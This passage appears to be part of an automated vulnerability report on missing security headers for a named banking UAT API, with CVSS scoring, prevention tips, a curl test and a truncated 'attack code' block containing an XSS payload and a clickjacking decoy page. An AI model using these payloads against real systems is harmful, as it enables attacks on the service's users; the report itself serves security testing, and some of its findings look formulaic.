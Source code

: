 **🛡️ Prevention Methods:**
- Implement Content Security Policy (CSP)
- Set X-Frame-Options to prevent clickjacking
- Enable Strict-Transport-Security (HSTS)
- Set X-Content-Type-Options to nosniff
- Configure Referrer-Policy
- Set Permissions-Policy for feature control

**📋 Testing Commands:**
```bash
# Test 1: X-Permitted-Cross-Domain-Policies
curl -X GET "https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?input=X-Permitted-Cross-Domain-Policies"

```

---

### 13. Security Headers Vulnerability

**🎯 Target:** `https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false`

**📝 Description:** Missing security headers expose the application to various attacks including XSS, clickjacking, and protocol downgrade attacks.

**💥 Impact:** XSS, clickjacking, protocol downgrade, MIME confusion attacks, information disclosure

**🔍 CVSS Score:** 6.5 (Medium)

**📊 CVSS Details:**
- **Attack Vector:** Network
- **Complexity:** Low
- **Privileges Required:** None
- **User Interaction:** Required
- **Scope:** Unchanged
- **Confidentiality:** Low
- **Integrity:** Low
- **Availability:** None

**🔴 Priority:** Medium - Within 1 month

**🎯 Successful Payloads:**
1. `Feature-Policy`

**⚔️ Attack Code (How to Simulate):**
```javascript
// Security Headers Attack Code
// 1. XSS Attack (if CSP missing)
const xssPayload = "<script>alert('XSS')</script>";
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?q=" + encodeURIComponent(xssPayload));

// 2. Clickjacking Attack (if X-Frame-Options missing)
const clickjackingPage = `
<!DOCTYPE html>
<html>
<head><title>Free Prize!</title></head>
<body>
    <h1>🎁 Click for free prize!</h1>
    <iframe src="https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false" style="opacity:0.1; position:absolute; top:50px; left:50px;"></iframe>
    <button onclick="triggerDelete()" style="position:absolute; top:50px; left:50px; z-index:1000;">
        🎁 CLAIM PRIZE
    </button>
```